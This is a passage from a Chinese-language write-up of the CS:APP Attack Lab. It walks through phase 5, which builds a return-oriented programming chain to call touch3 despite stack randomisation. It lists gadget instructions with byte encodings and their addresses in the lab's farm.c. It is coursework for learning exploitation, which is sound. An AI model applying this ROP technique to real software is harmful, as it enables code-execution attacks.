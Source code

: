 ![1.12](D:\CSAPP\write-ups\attacklab\1.12.png)

phase4完成！

### Phase 5

Phase5就是用ROP的方法来实现Phase3同样的功能：去调用touch3：

由于上面Phase 3中看到，touch3函数会在栈中分配100个字节，所以我们要将数据放在栈的上方以免被覆盖(我们不能像phase3中一样去寻找栈地址，因为存在栈随机化)，那么我们想到通过栈寄存器的偏移来实现，但是给定编码中没有add rsp相关的指令，所以我们必须使用lea和间接寻址的方式来实现，观察farm.c给出的指令：

```assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   

```

只有这一条能够使两个寄存器相加没有立即数，那么接下来的操作就是将我们想加的值mov进这两个寄存器即可，也就是先获取rsp地址再放入其他寄存器：

```assembly
movq %rsp, %rax			;48 89 e0
mov %rax,%rdi			;48 89 c7
popq %rax				;58
movl %eax, %edx			;89 c2
movl %edx, %ecx			;89 d1
movl %ecx, %esi			;89 ce
lea (%rdi,%rsi,1),%rax	;48 8d 04 37
movq %rax, %rdi			;48 89 c7
```

搜索farm，第一条在：

```assembly
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq   

```

第二条在：

```assembly
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

第三条：

```assembly
00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3   
```

第四条：

```assembly
00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3    
```
